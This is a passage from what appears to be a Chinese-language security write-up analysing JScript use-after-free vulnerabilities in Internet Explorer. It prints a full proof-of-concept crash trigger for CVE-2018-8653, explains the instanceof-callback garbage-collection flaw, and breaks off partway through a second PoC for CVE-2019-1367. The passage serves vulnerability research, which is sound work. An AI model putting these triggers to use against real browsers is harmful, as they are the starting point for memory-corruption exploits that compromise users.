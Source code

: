 首先跟随笔者看一下 CVE-2018-8653 的 PoC，如下：

```
var objs = new Array();
var refs = new Array();
var dummyObj = new Object();
 
function uaf() {
    // this未被GC追踪
    for (var i = 0; i < 10000; i++) {
        objs[i] = null;
    }
 
    CollectGarbage();
 
    for (var i = 0; i < 201; i++) {
        refs[i].prototype = null;
    }
 
    CollectGarbage();
    alert(this); // <- 触发crash
    return true;
}
 
for (var i = 0; i < 201; i++) {
    var arr = new Array({ prototype: {} });
    var e = new Enumerator(arr);
    refs[i] = e.item();
}
 
for (var i = 0; i < 201; i++) {
    refs[i].prototype = new RegExp();
    refs[i].prototype.isPrototypeOf = uaf;
}
 
for ( var i = 0; i < 10000; i++ ) {
    objs[i] = new Object();
}
 
dummyObj instanceof refs[200];

```

这个漏洞一个由 instanceof 回调导致的 UAF 漏洞，Jscript 代码没有将自定义的 instanceof 回调函数 (即 PoC 中的 uaf) 的 this 参数加入 GC 追踪列表，导致在回调函数中可以强制触发垃圾回收机制，得到悬垂指针，后面再次访问该指针时即发生 UAF。

### CVE-2019-1367

接着是 CVE-2019-1367 的 PoC，如下：

```
var spray = new Array();
 
function uaf() {
    // arguments未被GC追踪
    for(var i = 0; i < 20000; i++) {
        spray[i] = new Object();
    }
 
    arguments[0] = spray[5000];
 
    for(var i = 0; i < 20000; i++) {
        spray[i] = 0;
    }
 
    CollectGarbage();
```